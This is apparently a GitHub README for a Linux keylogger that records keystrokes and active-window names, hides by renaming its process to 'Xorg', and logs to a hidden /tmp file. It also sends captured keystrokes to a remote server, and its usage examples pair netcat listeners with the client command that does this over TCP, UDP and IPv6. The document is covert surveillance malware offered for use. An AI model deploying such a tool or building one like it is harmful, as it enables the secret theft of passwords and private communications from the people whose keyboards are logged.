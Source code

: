 # Simple_Local&Remote_Keylogger<br>

##DESCRIPTION:

	Simple keylogger that runs on Linux either locally or remotely.
	It shows the active window on which the target is writing.
	Keys are mapped on US keyboard.
	It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	Process name is renamed as "Xorg".
	It works with both TCP and UDP and with ipv6 too.
	It must be run as root.

Usage: #./slrk [OPTIONS]


##OPTIONS:
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

##EXAMPLE:

	[TCP]
	
	Server$ nc -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	

	[UDP]
	
	Server$ nc -u -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	

	[IPv6]
	
	Server$ nc -6 -lvp 8888 > logger.txt
	Client#./slrk -m remote -a ::1 -p 8888
	
